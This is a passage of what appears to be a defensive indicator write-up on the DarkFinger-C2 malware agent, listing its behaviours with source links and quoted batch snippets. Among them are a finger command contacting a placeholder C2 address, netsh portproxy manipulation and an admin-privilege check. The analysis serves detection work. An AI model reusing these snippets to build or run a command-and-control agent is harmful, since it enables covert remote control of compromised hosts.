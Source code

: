     ```batch
    finger !%TMP_PORT%!@[DarkFinger-C2IP]
    ```

### Show Current Portproxy

- Description: Show current PortProxy configuration
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L218
- Indicators:
  - Call to `netsh.exe`

    ```batch
    netsh interface portproxy show all
    ```

### Delete Portproxy and exit

- Description: Removes any previous Portproxy configuration from the registry and exits
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L68
- Indicators:
  - Same indicators as [Remove Netsh PortProxy](#remove-netsh-portproxy)

## Functionalities

### CheckAdminPriv

- Description: Checks if the script is running with admin privileges
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L42
- Indicators:
  - The check is done by executing `net session >nul 2>&1` and checking for the `%ERRORLEVEL%` env variable

    ```batch
    net session >nul 2>&1
    IF %errorLevel% == 0 (
        ECHO [+] Got Admin privileges!.
        SET  /a Admin = 0
        GOTO Init
    ) ELSE  (
        ECHO [!] Agent running as non-admin, if you can escalate privs re-run the agent!.
        SET /a Admin = 1
        SET  DARK_PORT=79
        GOTO CheckOutbound79
    )
    ```

### CheckOutbound79

- Description: Check if port 79 is receahble from the host
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L68
- Indicators:
  - Call to a PowerShell script using sockets to check if the C2 is reachable on port 79
